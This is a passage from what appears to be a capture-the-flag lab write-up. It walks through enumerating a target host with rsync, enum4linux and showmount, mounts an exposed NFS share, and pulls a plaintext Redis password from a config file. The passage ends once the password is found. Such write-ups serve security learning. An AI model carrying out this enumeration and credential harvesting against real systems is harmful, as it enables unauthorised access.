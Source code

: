 There is an `rsync` server on port `873` we try to copy files using 

```
rsync -av rsync://10.10.128.223/files rsyn_shared
```

But we need a password to access the `files` folder.



By running `enum4linux` we find pretty much the info that `nmap` gave us.

We do find a username tho :

````
nobody
````

Let's look at the `nfs` share.

Running `showmount -e 10.10.128.223` we get :

```
/opt/conf *
```

We mount the share using :

```
sudo mount -t nfs 10.10.128.223:/opt/conf nfs_share/
```

Which give us a bunch of config files :

```
├── hp
│   └── hplip.conf
├── init
│   ├── anacron.conf
│   ├── lightdm.conf
│   └── whoopsie.conf
├── opt
├── profile.d
│   ├── bash_completion.sh
│   ├── cedilla-portuguese.sh
│   ├── input-method-config.sh
│   └── vte-2.91.sh
├── redis
│   └── redis.conf
├── vim
│   ├── vimrc
│   └── vimrc.tiny
└── wildmidi
    └── wildmidi.cfg
```

We see that there is a local `redis` instance running on port `6379`

We see in the redis config file.

```
requirepass "B65Hx562F@ggAZ@F"
```
